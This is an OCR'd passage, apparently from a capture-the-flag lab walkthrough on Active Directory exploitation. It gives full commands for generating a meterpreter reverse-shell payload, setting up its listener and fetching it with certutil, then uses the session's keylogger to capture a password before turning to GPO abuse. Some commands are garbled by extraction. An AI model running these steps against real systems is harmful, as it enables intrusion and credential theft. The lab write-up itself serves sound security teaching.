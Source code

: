 `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT="Listening port" -f psh -o shell.ps1`

You can then also use the following to create the associated listener in the msfconsole:

`sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST exploitad; set LPORT "listening port'; exploit"`

You can host your meterpreter shell using a Python webserver and then copy it using something like this:

`certutil.exe -urlcache -split -f http:///shell.ps1`

Once you have a meterpreter shell, you can continue. The first step is to see if the users have any running 
process

`meterpreter> ps | grep explorer`

If there are running explorer processes migrate to one of them

`meterpreter> migrate 3122`

Start the keylogger and wait, then dump the captured keystrokes

```
meterpreter> keyscan_start
meterpreter> keyscan_dump
```

This gives us the password for the .kdbx file which contains credentials for an account we haven't seen yet, 
svcServMan

### Exploiting GPOs

Perform some enumeration to find out if the svcServMan account can be useful to us.

In the Bloodhound Node info tab, First Degree Object Control shows the number of objects in Active Directory 
that this user can take control of, without relying on security group delegation. 

First Degree Object Control for the svcServMan account shows it has GenericWrite permissions over the 
Management Server Pushes Policy, a Group Policy Object (GPO).

By looking at the Affected Computer Objects for the Management Server Pushes GPO we see that it's applied to 
THMSERVER2, providing an oportunity for further AD exploitation.

**Group Policy Objects**

The SYSVOL directory is where AD GPOs are stored to be replicated to domain-joined machines. A GPO is a 
virtual collection of policy settings. Each GPO has a unique name, called a GUID. That's why if you try to 
read the contents of the SYSVOL directory, it won't make a lot of sense with all the random names.

Each Windows computer has a Local Policy Configuration. This contains several notable configurations such as:

